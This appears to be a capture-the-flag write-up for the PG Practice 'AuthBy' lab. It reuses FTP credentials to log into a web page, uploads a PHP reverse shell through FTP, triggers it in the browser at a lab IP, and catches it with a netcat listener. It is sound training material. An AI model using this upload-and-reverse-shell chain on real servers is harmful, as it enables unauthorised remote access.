






We have a webpage and it asks for authentication

Now using the credentials obtained from ftp at [[PG Practice/AuthBy/21]]

We can login to the webpage:
offsec:elite


Now we can see the page. It is the same as the *index.php* file in ftp 



So we can try to put a text file and check if it is accessible
```
echo "This is a test" > test.txt
```
Now in ftp:
```
put test.txt
```

It uploaded

Now we can try to access this file in the webpage
It works.

We can now try putting a php reverse shell. Go to revshells.com and get a reverse shell:

We can save this in *php-reverse-shell.php* file

And now upload in ftp:
```
put php-reverse-shell.php
```
and access it in browser:
http://192.168.164.46:242/php-reverse-shell.php

We get a shell:
```
rlwrap nc -nlvp 3389
```

